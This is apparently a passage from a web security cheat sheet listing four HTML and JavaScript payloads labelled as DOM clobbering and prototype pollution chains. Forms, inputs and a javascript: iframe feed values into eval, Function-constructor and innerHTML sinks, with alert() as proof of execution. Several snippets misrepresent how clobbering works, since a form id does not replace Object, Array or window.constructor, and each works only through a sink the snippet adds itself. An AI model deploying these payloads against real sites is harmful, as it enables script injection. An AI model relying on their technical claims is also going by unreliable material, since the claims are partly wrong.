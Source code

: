
## 🧬 DOM Clobbering + Prototype Pollution

**Advanced chain execution techniques - GOD TIER level!**

### Basic DOM Clobbering with Prototype Pollution
```html
<form id="constructor">
    <input name="prototype" value="<img src=x onerror=alert('DOM+Prototype')>">
</form>
<script>
if(window.constructor && window.constructor.prototype) {
    eval(window.constructor.prototype);
}
</script>
```

### Advanced Prototype Pollution Chain
```html
<form id="Object">
    <input name="prototype" value="polluted">
    <input name="polluted" value="alert('Prototype pollution!')">
</form>
<script>
for(let key in Object.prototype) {
    if(typeof Object.prototype[key] === 'string') {
        eval(Object.prototype[key]);
    }
}
</script>
```

### Constructor Chain DOM Clobbering
```html
<iframe name="constructor" src="javascript:alert('Constructor DOM clobbering')"></iframe>
<script>
if(window.constructor && typeof window.constructor === 'object') {
    window.constructor.constructor('alert("Chain execution!")')();
}
</script>
```

### Array Prototype Pollution
```html
<form id="Array">
    <input name="prototype" value="poisoned">
    <input name="poisoned" value="<script>alert('Array prototype pollution!')</script>">
</form>
<script>
if(Array.prototype.poisoned) {
    document.body.innerHTML += Array.prototype.poisoned;
}
</script>
```
